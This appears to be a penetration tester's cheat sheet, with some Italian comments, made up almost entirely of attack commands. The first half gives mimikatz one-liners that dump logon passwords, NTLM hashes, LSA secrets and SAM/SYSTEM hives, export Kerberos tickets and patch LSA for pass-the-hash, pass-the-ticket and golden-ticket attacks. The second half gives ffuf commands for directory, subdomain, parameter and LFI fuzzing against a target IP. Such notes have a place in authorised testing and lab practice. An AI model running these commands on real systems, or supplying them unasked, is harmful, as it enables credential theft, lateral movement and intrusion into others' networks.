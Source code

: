 ```bash
# logon password and NTLM hashes
.\mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords full" "exit"

# mimikatz one-liner
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "sekurlsa::msv" "lsadump::sam" "sekurlsa::wdigest" "exit"

.\mimikatz.exe  "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords" "exit"

# SAM & SYSTEM
.\mimikatz.exe "lsadump::sam  /system:C:\windows.old\windows\system32\SYSTEM /sam:C:\windows.old\windows\system32\SAM" "exit"
```

```bash
.\mimikatz
privilege::debug

lsadump::secrets

# provare ad elevare i privilegi
token::elevate
# rilanciare 
lsadump::secrets

# per attacco overpass the Hash
sekurlsa::logonpasswords

# per attacco pass the ticket
sekurlsa::tickets /export

# per attacco golden ticket
lsadump::lsa /patch
```

# Directory Fuzzing

**ffuf**

```bash
# classic
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://$TARGET_IP/FUZZ

# recursive common.txt
ffuf -w /usr/share/wordlists/dirb/common.txt:FUZZ -u http://10.129.230.21/FUZZ -recursion -recursion-depth 3 -e .php -v -fc 403

# recursive directory-list-2.3-medium.txt
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.230.21/FUZZ -recursion -recursion-depth 3 -e .php -v -fc 403

# subdomains
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://FUZZ.$TARGET_IP/

# parameter fuzzing
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ  -u http://$TARGET_IP/FUZZ

# LFI
ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u http://$TARGET_IP/FUZZ
```
